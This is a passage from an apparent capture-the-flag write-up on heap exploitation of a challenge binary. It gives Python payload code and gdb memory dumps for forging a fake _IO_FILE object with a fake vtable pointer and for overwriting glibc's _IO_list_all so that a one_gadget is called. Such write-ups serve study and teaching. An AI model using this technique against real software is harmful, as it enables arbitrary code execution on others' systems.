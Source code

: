 After that, we just need to place the address of our fake_vtable at offset `+0xd8`
and our one_gadget should be called!

We need to `malloc()` a chunk onto the heap to write this fake IO_FILE object to, that is sufficiently sized to store our fake vptr at offset `+0xd8`.

{% highlight python %}
payload  = "\xff"*0x20
payload += p64(0x0)                   # [io_file+0x20] < [io_file+0x28]
payload += "\xff"*(0xd8-0x20-0x8)
payload += p64(fake_vtable)           # FAKE_IO_FILE+0xd8 = &fake_vtable  
payload += "\xff"*(0xfe-0xd8-0x8)+"\n"
addFlower(0xff,"O"*23,payload)        # does NOT pop anything off fastbin since size >= 0x80 bytes
{% endhighlight %}

After we `malloc()` this smallchunk looks like the following.
{% highlight bash %}
gdb-peda$ x/100xg 0x5643a4b7c5e0
0x5643a4b7c5e0: 0x004f4f4f4f4f4f4f      0x0000000000000111
0x5643a4b7c5f0: 0xffffffffffffffff      0xffffffffffffffff <-- fake _IO_file obj starts here
0x5643a4b7c600: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c610: 0x0000000000000000      0xffffffffffffffff <-- +0x20, +0x28
0x5643a4b7c620: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c630: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c640: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c650: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c660: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c670: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c680: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c690: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c6a0: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c6b0: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c6c0: 0xffffffffffffffff      0x00005643a4b7c338 <-- fake vptr
0x5643a4b7c6d0: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c6e0: 0xffffffffffffffff      0x000affffffffffff
0x5643a4b7c6f0: 0x0000000000000000      0x000000000001f911
{% endhighlight %}

## Overwrite _IO_list_all 
To recap, our freelist still looks like this since our previous allocation was not of a fastbin size. 

```bash
[HEAD]->target
```

Finally, we can make another `0x68` byte sized allocation to get `malloc()` to return our target chunk above `_IO_list_all`.
Then, we write our payload into this chunk to overwrite the `_IO_list_all` pointer. 

{% highlight python %}
payload  = p64(0x4141414141414141)*2
payload += "BBB"
payload += p64(fake_IO_file)
addFlower(0x68,"Q"*23,payload)
{% endhighlight %}
